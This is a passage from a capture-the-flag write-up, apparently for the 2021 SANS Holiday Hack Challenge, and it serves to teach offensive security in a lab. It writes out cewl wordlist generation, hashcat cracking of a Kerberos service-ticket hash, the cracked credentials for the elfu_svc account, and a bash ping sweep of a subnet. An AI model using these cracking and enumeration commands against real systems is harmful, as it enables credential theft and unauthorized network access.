 Hint 5 indicates that we should probably include digits when scraping the website, so knowing that, let's construct our command

```
cewl -o https://register.elfu.org -w wordlist.txt --with-numbers
```

This will put the word list in to `wordlist.txt`

This is the list we will use to crack the hash for the `elfu_svc` account we enumerated.

We'll use the rule set defined in hint 4 to mangle the words in the wordlist we just generated.

Let's get to crackin'! 

```
hashcat -a 0 -m 13100 crackMe.txt --potfile-disable -r /usr/share/hashcat/rules/
password_cracking_rules/OneRuleToRuleThemAll.rule --force -O -w 4 ./wordlist.txt
```
![elfu_svc Credentials](/assets/img/2021_sans_hhc/obj/obj08/picture_9.png){: width="750"}
<p align="center">
    <strong>Figure 9: Cracked Credentials for the <em>elfu_svc</em> Account</strong>
</p>

Looks like we were able to crack the hash!

```
Username: elfu_svc
Password: Snow2021!
```

## Enumerate...again!

Now we need to figure out what to do with these credentials.

Let's see what other hosts are around us in this subnet. We can do this by creating a quick ping script using bash. We'll just ping the `172.17.0.0/24` subnet, since that is significantly fewer hosts, and work from there.

```
for i in {1..254}; do (ping -c1 172.17.0.$i | grep "bytes from" &); done
```

![Network Ping Sweep](/assets/img/2021_sans_hhc/obj/obj08/picture_10.png){: width="750"}
<p align="center">
    <strong>Figure 10: Host Enumeration</strong>
</p>

It appears that there are 5 hosts that are up
